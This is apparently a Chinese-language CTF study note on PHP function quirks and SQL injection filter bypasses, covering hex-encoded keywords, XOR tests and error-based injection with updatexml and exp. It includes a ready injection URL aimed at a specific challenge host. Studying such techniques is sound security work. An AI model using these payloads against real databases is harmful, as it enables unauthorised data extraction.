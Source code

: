 * **intval()**函数会将从字符串的开始进行转换直到遇到一个非数字的字符。
如果出现无法转换的字符串，intval()不会报错而是返回0。

* **preg_match函数** 返回匹配到的字符

---
# sql注入

## 绕过技巧
### 1. 关键字用16进制 0x73656C656374 ...
+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
### 2.异或运算

![](https://raw.githubusercontent.com/shanke001/-/master/img/360截图16560308556869.png)
![](https://raw.githubusercontent.com/shanke001/-/master/img/360截图17150129060957.png)
**正确为0 错误为1**
1  ^ 0 = 1
1  ^ 1 = 0
测试 过滤字符  符号可以用url编码 %23 #

+++++++++++++++++++++++++++++++++++++++++++++++++++++
### 3.基于报错注入

**updataxml**
**注入语句**
**updatexml(1,concat(0x7e,(查询语句),0)**
暴库
 **updatexml(1,concat(0x7e,(database(),0x7e),1);**
 ![](https://raw.githubusercontent.com/shanke001/-/master/img/360截图16720328383368.png)
 ![](https://raw.githubusercontent.com/shanke001/-/master/img/360截图18720115108113142.png)
之后相同
例子
~~~
http://123.206.87.240:9004/Once_More.php?id=id=%27%20and%20updatexml(1,concat(%27~%27,(select%20database()),%27~%27),1)%23
~~~


**exp**

语句 select exp(~(select * from (查询语句)x))
![](https://raw.githubusercontent.com/shanke001/-/master/img/360截图174110299697129.png)



### 4.基于时间的盲注

![](https://raw.githubusercontent.com/shanke001/-/master/img/360截图18750814505679.png)
